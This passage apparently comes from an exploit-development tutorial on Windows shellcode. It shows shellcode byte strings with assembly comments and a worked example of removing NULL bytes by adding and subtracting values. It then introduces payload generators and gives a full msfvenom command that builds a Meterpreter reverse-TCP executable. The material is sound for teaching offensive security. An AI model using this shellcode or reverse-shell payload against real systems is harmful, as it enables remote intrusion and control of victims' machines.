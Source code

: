     Example:

    ```assembly
    "\xB8\x70\xD9\x2B\x76" ; MOV EAX,762bd970 (address found by arwin)
    "\xFF\xD0"            ; CALL EAX
    ```

### **NULL-free Shellcode**

In the previous chapter, a shellcode was created that spawned a command prompt, but it was not NULL-free. To make it NULL-free, manual editing or encoding and decoding techniques can be employed.

#### **Manual Editing:**

* Subtract or add a specific value to remove the \x00 byte.
*   Example: Substracting 11111111 from 00646d63.

    Example:

    ```assembly
    "\x33\xDB"              ; XOR EBX,EBX (zero out EBX)
    "\xBB\x52\x5C\x53\xEF"  ; MOV EBX, EF535C52
    "\x81\xC3\x11\x11\x11\x11" ; ADD EBX, 11111111 (EBX contains 00646d63)
    "\x53"                  ; PUSH EBX
    "\x8B\xDC"              ; MOV EBX, ESP (puts pointer to the string)
    "\x33\xC0"              ; XOR EAX, EAX (zero out EAX)
    "\x50"                  ; PUSH EAX (push the string terminator)
    "\x6B\x6F\x70\x65\x6E"  ; PUSH "open"
    "\x8B\xCC"              ; MOV ECX, ESP (puts pointer to open)
    ```

**Encoder Tools:** You can use tools like `msfvenom` as encoder tools to automate the encoding and decoding process.

## Shellcode and Payload Generators

Indeed, several tools can help automate the process of generating shellcode and payloads for various purposes. Here are brief descriptions of the mentioned tools:

### [**msfvenom**](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom) **(Metasploit Framework)**

* **Description:** Metasploit is a widely used penetration testing framework, and `msfvenom` is a part of it. It is a powerful tool for generating various types of payloads, shellcodes, and exploits.
*   **Usage Example:**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe > payload.exe
    ```
* **Note:** You can customize the payload type, target platform, IP, and port.

{% embed url="https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom" %}

### [**The Backdoor Factory**](https://github.com/secretsquirrel/the-backdoor-factory) **(BDF)**
